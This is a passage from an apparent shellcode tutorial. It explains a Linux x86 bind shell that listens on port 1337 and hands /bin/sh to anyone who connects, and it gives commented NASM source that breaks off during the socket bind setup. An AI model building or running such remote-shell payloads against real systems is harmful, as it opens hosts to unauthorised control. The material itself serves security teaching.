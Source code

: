 That's all. A socket has been created, bound to port 1337, opened for incoming connections, and file descriptors have been re-routed to push stdin/stdout/stderr through the socket, and /bin/sh has been called upon connection.


The full assembly looks like this:

```x86asm
	; Filename: bind_shell.nasm

global _start

	; | EAX | system call numer ( + return data ) |
	; | EBX | 1st |
	; | ECX | 2nd |
	; | EDX | 3rd |
	; | ESI | 4th |
	; | EDI | 5th |
	; | EBP | 6th |

section .text
_start:

	; Create socket
	xor ebx, ebx
	mul ebx             ; zero out eax, and edx
	xor ecx, ecx

	mov al, 0x66  		; syscall: int socketcall(int call, unsigned long *args)	
	mov bl, 0x1			; int socket(int domain, int type, int protocol)  : SYS_SOCKET (0x01)	

						; *args: push in reverse order to stack
	push 0x6			; protocol = IPPROTO_TCP (6) - 
	push 0x1			; type = SOCK_STREAM (1)
	push 0x2			; domain = AF_INET (2)
	mov ecx, esp

	int 0x80
	mov edi, eax 		; store socket ptr to edi in edx

	; bind socket
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx

	mov al, 0x66  		; int socketcall(int call, unsigned long *args)	;
	mov bl, 0x2			; bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen)	;


						; source: man 7 ip
						; struct sockaddr_in {
						;     sa_family_t    sin_family	; /* address family: AF_INET */
						;     in_port_t      sin_port	;   /* port in network byte order */
						;     struct in_addr sin_addr	;   /* internet address */
						; }	;

						; /* Internet address. */
						; struct in_addr {
						;     uint32_t       s_addr	;     /* address in network byte order */
						; }	;

					
						; setup stack for [sockaddr *addr] structure
	push ecx			; INADDRY_ANY
	push word 0x3905	; port 1337 = 0x539  = rev.. 0x3905
```